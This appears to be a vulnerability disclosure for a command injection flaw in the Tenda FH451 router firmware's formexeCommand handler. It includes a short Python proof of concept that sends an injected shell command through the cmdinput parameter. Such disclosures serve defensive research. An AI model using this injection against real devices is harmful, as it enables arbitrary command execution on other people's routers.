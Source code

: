 ## Overview
Firmware download website: https://www.tenda.com.cn/download/detail-1629.html
## Affected version

FH451  V1.0.0.9
## Vulnerability details

Tenda FH451 V1.0.0.9 , we discovered a command injection vulnerablility in `formexeCommand` function in the `cmdinput` parameter and the `str` varable is assigned to `cmd_buf` variable, which is directly used in `doSystemCmd` function, causing an arbitrary command execution. The user-provided `cmdinput` can trigger this security vulnerability.
![Vulnerability Function2](160641.png)

## POC

```python
import requests
IP = "192.168.109.145"
url = f"http://{IP}/goform/exeCommand"
data = "cmdinput=ls;"
ret = requests.post(url=url,data=data)
```
![Vulnerability Function2](160834.png)
